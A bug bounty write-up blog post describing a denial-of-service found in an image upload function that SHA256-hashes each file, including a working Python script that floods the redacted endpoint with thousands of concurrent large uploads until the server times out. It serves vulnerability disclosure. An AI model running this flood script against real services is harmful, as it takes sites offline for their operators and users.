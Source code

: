 ```yaml
---
title: DoS via abusing the Upload Function
date: 2023-12-25
categories: [Writeup]
tags: [writeup, bugbounty, hackerone, hack, cybersecurity, bugbountytip, DOS, bugcrowd, web, pentest]
---
```



Greetings, Hope y'all good and fine!

Recently after finding [DoS via Password Strength Checker Function](https://sawmj.github.io/posts/DOS-via-password-strength-checker/), I found another interesting DoS vulnerability but in another function which is the upload function.

You can check my other DOS write-up here, 

![Alt text](/assets/img/dos-h1/2023-11-09_14-17.png)



This function is very unique as the application uses a method that is not very common


The application has a function that handles image upload to the S3 bucket and instead of letting the users to upload images directly to the s3 bucket, they let users upload images to the application server first and then the server upload the picture to the S3 bucket.

After testing it I figured out the following,

The function takes the uploaded file and it checks on the magic byte of the file to make sure that the uploaded image is one of the following PNG,JPEG or GIF. And then it renames it with random string and add extension to the file as what magic byte it detected and return with the file link from the S3 bucket after uploading it.


![Alt text](/assets/img/dos-h1/2023-11-08_22-59.png)


Now the question is where this file's name comes from?

From the look of it, It seems like a hash value!    
I needed to make further testing, First I need to make sure that this is indeed a hash value and what the exact content they are hashing, Second I need to figure out what kind of hash is this.

First by simply uploading the same file twice the same file's name get generated in the response. This makes it obvious they are hashing the content of the file    
Second, The generated file name is 64 char long which is probably SHA256 as expected and to be 100% sure I tried to hash the same content of the file using SHA256 and indeed it gave back the same value the server did in the file name.


Now we know exactly what happens in the background, How can we take advantage of this?

The answer is in the hashing function,  
Hashing takes processing power to compute and the larger the input the more process power it takes.

So the attack vector was very clear for me from this point, 
All I need is give the server hell of files to compute its hashes until the CPU chokes!

Now my theory is solid and all I need is to write a script to automate the process for me.

I wrote a python script that uploads many files simultaneously and concurrently that looks something like this:


```python
#!/usr/bin/env python3

import urllib3
import requests as req
from hurry.filesize import size
import concurrent.futures


urllib3.disable_warnings()
payload= "AZ"*300000
url= "https://upload-files.REDACTED.com/"
headers= {"Content-Type": "multipart/form-data; boundary=---------------------------10576330173106338099435430878"}


def make_request(payload):

  payload += "Z" * 100

  data = '-----------------------------10576330173106338099435430878\x0d\x0aContent-Disposition: form-data; name=\"data\"; filename=\"saw(1).pnsg\"\x0d\x0a\x0d\x0aGIF87a\x0d\x0asaw{}-----------------------------10576330173106338099435430878--'.format(payload)

  r = req.post(url, headers=headers, data=data, verify=False, timeout=50)

  return r


if __name__ == '__main__':
  with concurrent.futures.ThreadPoolExecutor(max_workers=300) as executor:
    futures = [executor.submit(make_request, payload) for i in range(15000)]

   
    for future in concurrent.futures.as_completed(futures):
      result = future.result()
      
      print(str(result.status_code) + "\t Length: " + size(len(payload)) + "\t" + result.headers['Location'] + " \t " + str(result.elapsed.total_seconds()) + " Seconds")
```

Running this code in a VPS with high bandwidth, It uploads many files to the server.  

After running the script, tried to reach the website from my machine got Gateway Time-out error from the reverse proxy:

![Alt text](/assets/img/dos-h1/2023-11-09_00-35.png)


And Violla as expected the server drowned in the hashing process and couldn't handle any other requests and went completely inaccessible no more.

I went ahead and wrapped a summary along with all PoCs and send a nice report to the program.

![Alt text](/assets/img/dos-h1/2023-11-09_14-17.png)